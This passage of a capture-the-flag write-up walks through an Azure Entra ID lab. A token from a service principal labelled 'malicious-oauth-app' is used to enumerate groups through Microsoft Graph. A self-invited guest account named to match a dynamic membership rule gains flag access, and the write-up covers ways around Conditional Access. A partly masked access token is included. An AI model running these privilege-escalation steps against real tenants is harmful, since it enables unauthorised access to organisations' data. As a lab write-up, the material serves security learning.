MjVsWWXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"}user@monthly-challenge:~$
```




**2. Save the Token**

If that succeeds, it will spit out a massive JSON blob containing Our `"access_token"`. To make our next commands easier, let's save that token to an environment variable. Copy the actual token string (the massive block of text starting with `eyJ...`) and run:

```bash
export TOKEN="eyJ0eXAiOiJKV1QiLCJub25jZSI6Ijc2QVRFOHBzZjQzWXMyT2k0bFV1MmxGS0VEWGoxRzF4TDlGbERTM2t6RU0iLCJhbGciOiJSUzI1NiIsIng1dCI6IlUxc1g4WUZIUzdaNlZsN1ZITEl6VGVqYnZqMCIsImtpZCI6IlUxc1g4WUZIUzdaNlZsN1ZITEl6VGVqYnZqMCJ9.eyJhdWQiOiJodHRwczovL2dyYXBoLm1pY3Jvc29mdC5jb20iLCJpc3MiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC9kMjZmMzUzZC1jNTY0LTQ4ZTctYjI2Zi1hYTQ4YzZlZWNkNTgvIiwiaWF0IjoxNzc2MDgwOTY3LCJuYmYiOjE3NzYwODA5NjcsImV4cCI6MTc3NjA4NDg2NywiYWlvIjoiQVNRQTIvOGJBQUFBYUNneHFNVDJ4YlUzTG44ZDdoaVV5c2p6ZWMvQi9QTjFvMUVTMnNiWFVydz0iLCJhcHBfZGlzcGxheW5hbWUiOiJtYWxpY2lvdXMtb2F1dGgtYXBwIiwiYXBwaWQiOiJmODNjYjNkNy00N2RlLTQxNTQtYmU2NS1jODVkNjk3Y2RmZDMiLCJhcHBpZGFjciI6IjEiLCJpZHAiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC9kMjZmMzUzZC1jNTY0LTQ4ZTctYjI2Zi1hYTQ4YzZlZWNkNTgvIiwiaWR0eXAiOiJhcHAiLCJvaWQiOiI5OTY2NzdmOC02OWYxLTQxNzEtYmUwMC0yMDdmM2UwNWZhZWMiLCJyaCI6IjEuQWE0QVBUVnYwbVRGNTBpeWI2cEl4dTdOV0FNQUFBQUFBQUFBd0FBQUFBQUFBQUFBQUFDdUFBLiIsInJvbGVzIjpbIkdyb3VwLlJlYWQuQWxsIiwiVXNlci5JbnZpdGUuQWxsIl0sInN1YiI6Ijk5NjY3N2Y4LTY5ZjEtNDE3MS1iZTAwLTIwN2YzZTA1ZmFlYyIsInRlbmFudF9yZWdpb25fc2NvcGUiOiJFVSIsInRpZCI6ImQyNmYzNTNkLWM1NjQtNDhlNy1iMjZmLWFhNDhjNmVlY2Q1OCIsInV0aSI6InBrWllUZFJkSTA2ZmhMTGsxaE5iQUEiLCJ2ZXIiOiIxLjAiLCJ3aWRzIjpbIjA5OTdhMWQwLTBkMWQtNGFjYi1iNDA4LWQ1Y2E3MzEyMWU5MCJdLCJ4bXNfYWNkIjoxNzUzOTcxOTM3LCJ4bXNfYWN0X2ZjdCI6IjkgMyIsInhtc19mdGQiOiI0QkRPYVdBUEphVDlLOWhxdjliMnM3WURiaEdPZE5sQXVzcndLbHJrQ3JFQlpYVnliM0JsYm05eWRHZ3RaSE50Y3ciLCJ4bXNfaWRyZWwiOiI3IDIiLCJ4bXNfcGZ0ZXhwIjoxNzc2MTcxMjY3LCJ4bXNfcmQiOiIwLjQtTGdZQkppV2NmNG5rbEloSU5WU09DSWQ5VTByUXBkejZWWDE3OVlIc29kTHlUQ3dTNGtFRmN1MjVsWWXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
```




```bash
user@monthly-challenge:~$ curl -s -H "Authorization: Bearer $TOKEN" "https://graph.microsoft.com/v1.0/groups?$select=id,displayName,description" | jq .
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#groups",
  "value": [
    {
      "id": "0231085a-ee51-42f6-b641-42a1234cfb73",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:23:11Z",
      "creationOptions": [],
      "description": "Security group for network administrators managing VNets and firewalls",
      "displayName": "SecGrp-Network-Admins",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-network-admins",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:23:11Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-36767834-1123479121-2705473974-1945848867",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "0ae4b3cc-4e7a-4fc1-b547-d2facad90119",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:24:08Z",
      "creationOptions": [],
      "description": "Security group for finance department with access to billing data",
      "displayName": "SecGrp-Finance-Dept",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-finance-dept",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:24:08Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-182760396-1338068602-4208084917-419551690",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "192d7c4a-235e-45b4-866d-c3360db7eb1d",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:25:05Z",
      "creationOptions": [],
      "description": "Security group for HR department with access to employee data",
      "displayName": "SecGrp-HR-Dept",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-hr-dept",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:25:05Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-422411338-1169433438-918777222-501987085",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "2661ef49-c568-4132-a59e-7b75e2ac05d6",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:22:19Z",
      "creationOptions": [],
      "description": "Security group for privileged administrators with global access",
      "displayName": "SecGrp-Privileged-Admins",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-privileged-admins",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:22:19Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-643952457-1093846376-1971035813-3590696162",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "313cf35f-8c44-478a-ba4a-11b7904e1c1c",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:23:34Z",
      "creationOptions": [],
      "description": "Security group for application developers with access to DevOps tools",
      "displayName": "SecGrp-Developers",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-developers",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:23:34Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-826078047-1200262212-3071363770-471617168",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "4bf7b481-58bb-4631-afe9-7af96ce822e4",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T14:14:59Z",
      "creationOptions": [],
      "description": null,
      "displayName": "DynGrp-Guests-Only",
      "expirationDateTime": null,
      "groupTypes": [
        "DynamicMembership"
      ],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "e5e564ea-7",
      "membershipRule": "(user.userType -eq \"Guest\")",
      "membershipRuleProcessingState": "On",
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T14:14:59Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-1274524801-1177639099-4185581999-3827492972",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "7d060bb7-75e4-456e-b46f-382f4ff0c4fd",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T14:16:41Z",
      "creationOptions": [],
      "description": "Users assigned access to flag",
      "displayName": "Users assigned access to flag",
      "expirationDateTime": null,
      "groupTypes": [
        "DynamicMembership"
      ],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "44a9daaf-2",
      "membershipRule": "(user.department -eq \"Finance\") and (user.jobTitle -eq \"Manager\") or (user.displayName -startsWith \"CTF\") and (user.userType -eq \"Guest\") or (user.city -eq \"Seattle\")",
      "membershipRuleProcessingState": "On",
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T14:16:41Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-2097548215-1164867044-792227764-4257542223",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "cc27dfa8-2df1-4f84-99b7-c2d91e1e762e",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:25:40Z",
      "creationOptions": [],
      "description": "Security group for auditors with read-only permissions to resources",
      "displayName": "SecGrp-ReadOnly-Auditors",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-readonly-auditors",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:25:40Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-3425165224-1334062577-3653416857-779492894",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    },
    {
      "id": "df2dab3d-1276-49e1-9d63-a4d29302dd36",
      "deletedDateTime": null,
      "classification": null,
      "createdDateTime": "2025-08-19T12:23:49Z",
      "creationOptions": [],
      "description": "Security group for data scientists with access to ML and analytics resources",
      "displayName": "SecGrp-Data-Scientists",
      "expirationDateTime": null,
      "groupTypes": [],
      "infoCatalogs": [],
      "isAssignableToRole": null,
      "mail": null,
      "mailEnabled": false,
      "mailNickname": "secgrp-data-scientists",
      "membershipRule": null,
      "membershipRuleProcessingState": null,
      "onPremisesDomainName": null,
      "onPremisesLastSyncDateTime": null,
      "onPremisesNetBiosName": null,
      "onPremisesSamAccountName": null,
      "onPremisesSecurityIdentifier": null,
      "onPremisesSyncEnabled": null,
      "preferredDataLocation": null,
      "preferredLanguage": null,
      "proxyAddresses": [],
      "renewedDateTime": "2025-08-19T12:23:49Z",
      "resourceBehaviorOptions": [],
      "resourceProvisioningOptions": [],
      "securityEnabled": true,
      "securityIdentifier": "S-1-12-1-3744312125-1239487094-3533988765-920453779",
      "theme": null,
      "uniqueName": null,
      "visibility": null,
      "onPremisesProvisioningErrors": [],
      "serviceProvisioningErrors": []
    }
  ]
}
user@monthly-challenge:~$ 
```

```json
"displayName": "Users assigned access to flag",
"groupTypes": ["DynamicMembership"],
"membershipRule": "(user.department -eq \"Finance\") and (user.jobTitle -eq \"Manager\") or (user.displayName -startsWith \"CTF\") and (user.userType -eq \"Guest\") or (user.city -eq \"Seattle\")"
```


This is a **Dynamic Group**. Instead of administrators manually adding users to this group, Entra ID automatically adds anyone who matches that `membershipRule`. And as the name implies, anyone in this group gets access to the flag!

We need an account that matches one of those conditions. 
Let's look at the easiest condition to spoof:
`(user.displayName -startsWith "CTF") and (user.userType -eq "Guest")`

Now, remember the roles we found inside Our access token earlier?
`"roles":["Group.Read.All", "User.Invite.All"]`

Our malicious Service Principal doesn't just have read access. **It has the power to invite external Guest users into the tenant.** We are going to use the Graph API to invite Our *actual* personal email address into the victim's tenant as a Guest, and we will purposely set Our display name to start with "CTF". Entra ID will evaluate the dynamic rule, see We match the criteria, and automatically drop We into the privileged group.

### The Guest Invitation

Run this `curl` command. 

```bash
curl -s -X POST "https://graph.microsoft.com/v1.0/invitations" \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "invitedUserEmailAddress": "XXXXXXXXXX@gmail.com",
    "invitedUserDisplayName": "CTF-Hacker",
    "inviteRedirectUrl": "https://myapps.microsoft.com/?tenantid=967a4bc4-782a-492d-a5d5-afe8a7550b5f"
  }'
```



### Claiming the Flag


Because We are now in the "Users assigned access to flag" group, the application containing the flag will be sitting right there on Our dashboard! Click it and claim Our prize. 

Ah, We hit the ultimate boss of Azure AD: **Conditional Access Policies (CAPs)**. 

The challenge author wasn't kidding when they said the environment is "heavily restricted." Even though Our Guest account was successfully created and dynamically added to the privileged group, the tenant's security policies are blocking interactive web logins because Our Guest account hasn't satisfied the required MFA or device compliance checks.

But don't panic. We don't actually need the web interface.

#### The "Aha!" Moment

Think about our attack path so far: we used the web UI *just* long enough to plant our Service Principal backdoor. 

Why? Because **Service Principals are machine identities.** They authenticate via APIs using tokens, meaning they completely bypass user-based Conditional Access Policies like MFA, trusted IP ranges, and device compliance. 

Our Guest account is trapped in the UI, but Our Service Principal is already inside the matrix, and it has the `Group.Read.All` permission.

#### Tried! : Looting the Flag via API

Instead of trying to log into the My Apps portal to see what application that group grants access to, we can just ask the Microsoft Graph API to list the applications assigned to that group directly.

We know the Object ID of the "Users assigned access to flag" group from Our earlier output is: `7d060bb7-75e4-456e-b46f-382f4ff0c4fd`.

Jump back into Our CTF terminal and run this command using Our existing `$TOKEN` to list the **App Role Assignments** for that specific group:

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/groups/7d060bb7-75e4-456e-b46f-382f4ff0c4fd/appRoleAssignments" | jq .
```



Target acquired! Look exactly at the `resourceDisplayName` in Our output: **"CTF Challenge Flag"**. 

This confirms that the dynamic group gives access to a specific Enterprise Application (Service Principal) in the tenant. More importantly, we now have its exact Object ID: `80b871a5-ce2b-4685-81e8-a02ea36dcf65`.

In Entra ID CTF challenges, when a flag is hidden inside an application, it is almost always stuffed into one of the text fields of the Service Principal object—usually the `description`, `notes`, or sometimes as a custom `appRole` value.



Found we don't need to log into the portal to read those fields. We can use Our existing `$TOKEN` to query the Microsoft Graph API for the properties of that specific Service Principal.

Run this command in Our terminal to dump the full JSON object of the "CTF Challenge Flag" application:


```bash
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://graph.microsoft.com/v1.0/servicePrincipals/80b871a5-ce2b-4685-81e8-a02ea36dcf65" | jq .
```

Ah, we flew a little too close to the sun! That 403 `Authorization_RequestDenied` error is Microsoft Graph slamming the door in our face. 

Here is exactly why that happened: Our malicious Service Principal was granted `Group.Read.All` and `User.Invite.All`. It does *not* have `Application.Read.All` or `Directory.Read.All`, so it literally lacks the permissions to read the properties of other Service Principals. 


```text
0x0z0nXXX@azurectfchallengegame.com
We can't get there from here
Additional sign-in methods are required...
```

We used the **Admin Account** (`0x0z0nXXX`)! 

Remember the original challenge description: *"creates admin users, but they are heavily restricted."* The tenant's Conditional Access Policies are explicitly designed to trap and block those admin accounts from accessing the portal. 

But Our **Guest Account** (`XXXXXXXXXX@gmail.com`) is *not* an admin. It is just a standard external guest that cleverly slipped into a privileged group via the dynamic membership rule. It is highly likely that the Guest account bypasses those strict admin CAPs entirely.

Let's abandon the restricted API and go back to the front door.

#### Way Around

1. **Open a completely fresh Incognito/Private window** (Make sure no other Microsoft accounts are logged in).
2. Go directly to this tenant-specific My Apps URL:
   `https://myapps.microsoft.com/azurectfchallengegame.com`
3. **Log in using ONLY Our Guest account:** `XXXXXXXXXX@gmail.com`. (Do NOT use the 0x0z0n account).
4. Since We forced the tenant URL, it should authenticate Our Gmail account and drop We straight into the victim's dashboard.

This is the final defense mechanism of the CTF, and it is a fantastic learning moment about how Azure handles identity versus how web browsers handle links.

#### What Just Happened?

We received a `PublicAccessNotPermitted` error. This means the storage account has explicitly disabled anonymous read access (which is a security best practice). 

#### Why Did It Fail?

Even though We are logged into the Microsoft "My Apps" portal, web browsers **do not** automatically attach Our Entra ID (Azure AD) authentication tokens when We simply click a link to a raw `blob.core.windows.net` URL. The browser performed a naked, unauthenticated HTTP GET request, and Azure Storage rightfully slammed the door in its face.

The "CTF Challenge Flag" application tile We clicked in My Apps was likely just a "Linked" application—a shortcut that points to that URL. However, because Our Guest account is in the highly privileged "Users assigned access to flag" group, Our identity actually possesses the underlying Azure Role-Based Access Control (RBAC) permissions (like `Storage Blob Data Reader`) to view that file. We just need to prove who We are to the storage account.

Here are the two ways to grab the flag using Our authenticated Guest identity.


#### Easy Way Azure Portal

Since We already have a browser session authenticated as the Guest, we can use the Azure Portal's built-in "Storage Browser," which automatically handles passing Our Entra ID token to the storage account.

1. **Stay in Our Incognito Window** (where We are logged in as `XXXXXXXXXX@gmail.com`).
2. **Navigate to the Azure Portal**, explicitly forcing the victim's tenant context:
   `https://portal.azure.com/azurectfchallengegame.com`
3. In the top search bar, search for and select **Storage accounts**.
4. Click on the storage account named **`azurechallengectfflag`**.
5. On the left-hand menu, click on **Storage browser** (or **Containers**).
6. Open the **`grab-the-flag`** container.
7. We should see `ctf_flag.txt`. Click on it and select **Download** or **View/Edit** to read Our flag!


```O 
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<Error>
<Code>PublicAccessNotPermitted</Code>
<Message>Public access is not permitted on this storage account. RequestId:96afc8f9-801e-0079-0b3f-cb7eb5000000 Time:2026-04-13T12:15:39.8848588Z</Message>
</Error>
```

### The Intended Way (Azure CLI)

If the CTF has a Conditional Access Policy blocking Guest accounts from logging into the Azure Management Portal (a common defense-in-depth tactic), We can bypass the UI entirely and extract it directly from Our CTF terminal using a Device Code login.

Back to our Web terminal:

**1. Log in to Azure CLI as Our Guest Account:**
```bash
user@monthly-challenge:~$ az login --tenant azurectfchallengegame.com --use-device-code --allow-no-subscriptions
To sign in, use a web browser to open the page https://login.microsoft.com/device and enter the code DHSY4KBC2 to authenticate.

Retrieving subscriptions for the selection...

[Tenant and subscription selection]

No     Subscription name    Subscription ID                       Tenant
--  -    
[1] *  Test Group           5dcc0e04-85ce-46dd-83c5-7703bb1XXXXX  d26f353d-c564-48e7-b26f-aa48cXXXXXXX

The default is marked with an *; the default tenant is 'd26f353d-c564-48e7-b26f-aa48cXXXXXXX' and subscription is 'Test Group' (5dcc0e04-85ce-46dd-83c5-7703bb1XXXXX).

Select a subscription and tenant (Type a number or Enter for no changes): 

Tenant: d26f353d-c564-48e7-b26f-aa48cXXXXXXX
Subscription: Test Group (5dcc0e04-85ce-46dd-83c5-7703bb1XXXXX)

[Announcements]
With the new Azure CLI login experience, We can select the subscription We want to use more easily. Learn more about it and its configuration at https://go.microsoft.com/fwlink/?linkid=2271236

If We encounter any problem, please open an issue at https://aka.ms/azclibug

[Warning] The login output has been updated. Please be aware that it no longer displays the full list of available subscriptions by default.

user@monthly-challenge:~$
```






